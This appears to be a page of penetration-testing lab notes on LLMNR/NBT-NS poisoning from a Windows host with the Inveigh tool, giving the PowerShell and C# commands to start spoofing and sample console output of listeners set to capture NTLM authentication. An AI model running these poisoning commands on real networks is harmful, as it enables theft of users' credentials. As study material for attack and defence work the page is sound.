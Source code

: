 
## 2. Credentials 

### From Windows

#### LLMNR/NBT-NS Poisoning with Inveigh

[See Inveigh](inveigh.md).

LLMNR & NBT-NS poisoning is possible from a Windows host as well.  Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

**Powershell version**: The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version (in the belowed section).

```
# Install the module
Import-Module .\Inveigh.ps1

# List parameters
(Get-Command Invoke-Inveigh).Parameters


# Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


**C#  version**:  Before we can use the C# version of the tool, we have to compile the executable. After that we can run:

```powershell
.\Inveigh.exe
```


Results:

```powershell
[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
```